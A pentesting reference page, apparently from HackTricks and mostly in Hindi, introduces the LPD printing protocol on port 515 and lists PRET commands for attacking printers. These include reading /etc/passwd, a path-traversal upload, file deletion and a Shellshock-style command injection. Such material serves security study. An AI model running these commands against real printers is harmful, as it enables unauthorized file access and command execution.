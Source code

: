{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### **LPD प्रोटोकॉल का परिचय**

1980 के दशक में, **लाइन प्रिंटर डेमन (LPD) प्रोटोकॉल** बर्कले यूनिक्स में विकसित किया गया, जिसे बाद में RFC1179 के माध्यम से औपचारिक रूप दिया गया। यह प्रोटोकॉल पोर्ट 515/tcp पर कार्य करता है, जो `lpr` कमांड के माध्यम से इंटरैक्शन की अनुमति देता है। LPD के माध्यम से प्रिंटिंग का सार एक **नियंत्रण फ़ाइल** (जो नौकरी के विवरण और उपयोगकर्ता को निर्दिष्ट करती है) के साथ एक **डेटा फ़ाइल** (जो प्रिंट जानकारी रखती है) भेजने में निहित है। जबकि नियंत्रण फ़ाइल डेटा फ़ाइल के लिए **विभिन्न फ़ाइल प्रारूपों** का चयन करने की अनुमति देती है, इन फ़ाइलों का प्रबंधन विशिष्ट LPD कार्यान्वयन द्वारा निर्धारित किया जाता है। यूनिक्स-जैसे सिस्टम के लिए एक व्यापक रूप से मान्यता प्राप्त कार्यान्वयन **LPRng** है। विशेष रूप से, LPD प्रोटोकॉल का उपयोग **दुष्ट पोस्टस्क्रिप्ट** या **PJL प्रिंट नौकरियों** को निष्पादित करने के लिए किया जा सकता है।

### **LPD प्रिंटर के साथ इंटरैक्ट करने के लिए उपकरण**

[**PRET**](https://github.com/RUB-NDS/PRET) दो आवश्यक उपकरण, `lpdprint` और `lpdtest`, पेश करता है, जो LPD-संगत प्रिंटर के साथ इंटरैक्ट करने का एक सीधा तरीका प्रदान करते हैं। ये उपकरण डेटा प्रिंट करने से लेकर प्रिंटर पर फ़ाइलों को प्रबंधित करने, जैसे डाउनलोड, अपलोड, या हटाने तक की एक श्रृंखला की क्रियाएँ सक्षम करते हैं:
```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```
For individuals interested in further exploring the realm of **printer hacking**, a comprehensive resource can be found here: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

* `port 515`


{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

